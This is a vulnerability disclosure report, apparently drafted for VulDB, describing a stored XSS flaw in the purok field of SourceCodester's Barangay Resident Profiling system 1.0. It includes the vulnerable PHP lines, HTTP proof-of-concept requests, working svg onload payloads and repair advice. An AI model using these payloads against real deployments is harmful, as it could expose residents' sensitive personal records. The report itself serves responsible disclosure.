


# SourceCodester Barangay Resident Profiling and Information Management System 1.0 /households.php purok= Stored XSS

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18747/barangay-resident-profiling-and-information-management-system-brpms-phpmysql.html
- https://www.sourcecodester.com/sites/default/files/download/oretnom23/brpms_sanfabian.zip

## Overview

- Barangay Resident Profiling and Information Management System (BRPMS, "Barangay San Fabian" build), version 1.0, stores the household "purok" (district) value verbatim and later renders it raw inside the Comprehensive Resident Report, allowing stored Cross-Site Scripting (XSS). The value persists in the `households` table and executes in the browser of every staff member who opens `/reports.php` — and would additionally execute for unauthenticated visitors on the public portal wherever the raw HTML path is reached.

## Details

- Vulnerable file: `/households.php` (injection) → `/reports.php` (raw render)
- Parameter: `purok` (POST)
- Affected version: 1.0 (current public download, 2026-11)
- Injection — the "Purok" field is an HTML `<select>` in the UI, but the server performs **no server-side whitelist**; any string is accepted and inserted verbatim:

```php
// households.php:15
$purok = trim($_POST['purok']);
...
// households.php:29-30
$stmt_add = $conn->prepare("INSERT INTO households (household_no, purok) VALUES (?, ?)");
$stmt_add->bind_param("ss", $household_no, $purok);
```

- Render — the report writer echoes the stored value raw while neighbouring columns are correctly escaped, which makes this a specific omission rather than a general policy:

```php
// reports.php:393
case 'purok': echo "<td>".$row['purok']."</td>"; break;
// contrast reports.php:391/394/396 which use htmlspecialchars(...)
case 'hh_no': echo "<td>".htmlspecialchars($row['household_no'])."</td>"; break;
```

- The row renders once the household has at least one member (the report lists residents grouped by household). The `purok` column is `varchar(50)`; a 26–45 character payload fits comfortably under MySQL strict mode.

## Description

- A staff member (or anyone able to reach the add-household endpoint with a valid session) submits a household whose `purok` value is markup instead of a district name. The UI dropdown offers only "Purok 1"–"Purok 7", but the server never validates the POSTed value, so the markup is stored in the database permanently. Every subsequent render of `/reports.php` with that household's members emits the raw markup into a table cell, executing attacker JavaScript in the context of the authenticated report view. Script in this origin can silently exfiltrate the resident master list (names, birthdays, civil status, health-condition flags — sensitive personal data), modify resident/household records, or ride the staff session. The same stored value also feeds the public portal's Chart.js labels via `json_encode()`; on that particular path the default `/`-escaping of `json_encode` breaks a `</script>` breakout, so the reports-page raw echo is the reliable sink.

## PoC

- Request 1 — store the payload (admin session):

```
POST /households.php HTTP/1.1
Host: 127.0.0.1:8140
Cookie: PHPSESSID=<admin session>
Content-Type: application/x-www-form-urlencoded

household_no=POCHH-42&purok=%3Csvg%20onload%3DBRPMS-PVXSS-3%3E&add_household=1
```

- Request 2 — add one member to the household (so the row renders in the report).
- Request 3 — open the report:

```
GET /reports.php HTTP/1.1
Host: 127.0.0.1:8140
Cookie: PHPSESSID=<admin session>
```

- Response (the stored payload is emitted raw into the table cell):

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<tr><td><strong>HH42, POC </strong></td><td>26</td><td>Male</td><td>No</td><td>Single</td><td>POCHH-42</td><td><svg onload=BRPMS-PVXSS-3></td><td>Head</td>...
```

## Payload

```
<svg onload=BRPMS-PVXSS-3>
```

(26 chars, fits `purok varchar(50)`)

Executing variant used for the screenshot run (45 chars):

```
<svg onload="document.body.prepend('P3XSS')">
```

## Screenshot: injection point — the UI suggests a fixed dropdown, but the server accepts anything

The Add New Household form shows `Purok` as a select box ("-- Select Purok --"); this whitelist is purely client-side decoration — the stored payload bypassed it with a direct POST.



## Screenshot: stored payload executing in the report view

Loading `/reports.php` ran the stored `svg onload` handler: the text node `P3XSS` (verified as `body.firstChild` in the DOM) is visible at the very top of the Comprehensive Resident Report — attacker-controlled JavaScript executing from a stored database value.



Full evidence log: `poc/F03-household-purok-public-xss.txt` (4 verification rounds incl. the public-portal `json_encode` analysis + screenshot-run addendum).

## Suggested repair

1. Enforce the whitelist server-side: in `households.php` reject any `purok` not in the fixed list (`Purok 1` … `Purok 7`) before the INSERT — the UI dropdown proves the intended value set.
2. Escape at render: `htmlspecialchars($row['purok'], ENT_QUOTES, 'UTF-8')` in `reports.php:393` (and audit sibling cases :392 `civil_status`, :395 `occupation`, :400 `fp_method`, which share the same omission).
3. Validate column widths at input time and keep MySQL strict mode on, so oversized payloads fail loudly rather than silently.
4. On the public portal, pass `JSON_HEX_TAG | JSON_HEX_APOS | JSON_HEX_QUOT | JSON_HEX_AMP` to `json_encode()` for any data echoed inside `<script>` blocks.

## Dedup note

- NVD: the only entry for this product is CVE-2026-11515 (hard-coded password in `passsword_reset.php`) — different file, different vulnerability class (checked 2026-11-09).
- VulDB: no entry for `households.php` `purok` or `reports.php` XSS (site searches returned none); only VDB-369135 (= CVE-2026-11515) covers this product. The code-projects.org entries CVE-2026-78142/78143/78144 cover other files/classes and do not overlap.
